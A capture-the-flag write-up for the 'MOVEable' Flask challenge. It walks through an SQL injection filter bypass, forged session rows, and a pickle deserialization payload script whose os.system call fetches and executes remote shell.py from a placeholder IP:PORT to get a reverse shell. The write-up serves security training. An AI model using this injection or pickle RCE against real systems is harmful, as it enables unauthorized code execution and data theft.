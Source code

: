 ```yaml
---
title: MOVEable
author: Sir_X_
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```


# MOVEable
![](../../assets/dom-images/logo.jpg)

## Description
Author: @JohnHammond#6971

Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.

## Solution
This challenge was quite fun to solve, with each step of exploitation becoming clear after a bit of searching. However, let's not rush things and rather examine how the challenge can be solved step by step.

We are provided with the app.py for a Flask application. This app displays a login page and utilizes an SQLlite database to store user information. Furthermore, there are tables for sessions and files that are stored within this web application.

The login function immediately reveals that the SQL statement for login seems susceptible to SQL injection. Below is the mentioned code segment:
```
username = DBClean(request.form['username'])
password = DBClean(request.form['password'])
conn = get_db()
c = conn.cursor()
sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
c.executescript(sql)
```
However, before being used in the SQL statement, our parameters are "cleaned" in the `DBClean` function.
```
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```
The function removes the characters ` `, `'` and `"`. Yet, there is an additional replacement that substitutes `\` with `'`, implying that we can still use `'`, if we type `\` instead.

For bypassing the removal of the space character ` `, a simple bypass of `/**/` can be used. As a result, we can now execute almost any SQL command.
The remainder of the login function indicates that we need an existing user returned from the SQL statement for a successful login.
``` 
user = c.fetchone()
if user:
    c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
    active_session = c.fetchone()
    if active_session:
        session_id = active_session[0]
    else:
        c.execute(f"SELECT username FROM users WHERE username=?", (username,))
        user_name = c.fetchone()
        if user_name:
            session_id = str(uuid.uuid4())
            c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
        else:
            flash("A session could be not be created")
            return logout()
    
    session['username'] = username
    session['session_id'] = session_id
    conn.commit()
    return redirect(url_for('files'))
else:
    flash('Username or password is incorrect')
    return redirect(url_for('home'))
```
Given the ability to inject additional SQL commands, we can insert any user of our choosing into the users table. 
For example a user called `admin1` with the following statement:
```
admin1\;/**/INSERT/**/INTO/**/users/**/VALUES/**/(\admin1\,\admin1\)--
```
Even though our local setup confirms that this user is indeed created in the users table, we are still unable to log in. Debugging on the locally deployed web app of the MOVEable app.py reveals that the user variable remains persistently `None`. This is due to the app's utilization of `executescript()`, which returns nothing. Therefore we will never be able to login that way. 

Next, we need to explore alternative methods for authentication and exploitation of this web application. For this, we'll look at the remaining functions in the Python code.

There's a `download_file` function that allows us to download files. Interestingly, this route doesn't check our authentication credentials but fetches the session ID directly from the URL. It then verifies the existence of this session ID in the activesessions database table and proceeds to download the requested file. Below is the snippet of that function:
```
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    file_data = c.fetchone()
# Continued...
```
Given that we can insert any statement into the database, it's possible to craft ourselves a valid session ID. All we need to do is modify the SQL injection slightly so that it writes a session instead of a user:
```
admin1\;/**/INSERT/**/INTO/**/activesessions/**/VALUES/**/(\8de16447-c339-41c4-be6f-eaf3db51a661\,\admin1\,\2024-10-17 22:14:53.757220\);--
```
This will allow us to read the files stored in the database, including flag.txt, which unfortunately contains a dummy text instead of a flag:
> lol just kidding this isn't really where the flag is

This mock flag was expected, as it's also inserted into the db within the app.py code. One might hope that the actual live instance would provide the real flag, but that isn't the case. 

Next, looking further into the same function's code, we notice that `pickle` is utilized to load file content from base64.
```
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```
Google reveals that pickle has some serious vulnerabilities that we might exploit to execute commands on the server.

In Python, the pickle module is used to serialize and deserialize data. In this case, deserialization can also lead to remote code execution. More details can be found [here (Python-Pickle-RCE-Exploit)](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/tree/main) and [here (exploiting-python-pickle)](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

Let's try to insert our own file into the third and last table of our database, one we haven't inserted anything into so far.

To generate the file content, we can use the following pickle payload generation script:
```
import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,('python3 -c "import urllib.request; exec(urllib.request.urlopen(\\"http://IP:PORT/shell.py\\").read())" IP PORT',))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
print(payload)
```
We then need to utilize the base64 output as file content in our insertion into the files table.
```
username=admin&password=admin\;INSERT/**/INTO/**/files/**/VALUES/**/(\pwned.txt\,\BASE64_HERE\,NULL)--%20-
```
The final step of the execution chain is to trigger the script. Of course, the `shell.py` needs to be downloadable by the hosted instance of the challenge, so the reverse shell can be downloaded from the Python script and executed. Moreover, the script then requires a way to connect back to your listener.

After the callback from the reverse shell, you were successfully able to access the root directory and read the flag. By using the command:
```
sudo cat /root/flag.txt
```

---
**Dombusters**: _Writeup written by Sir_X_
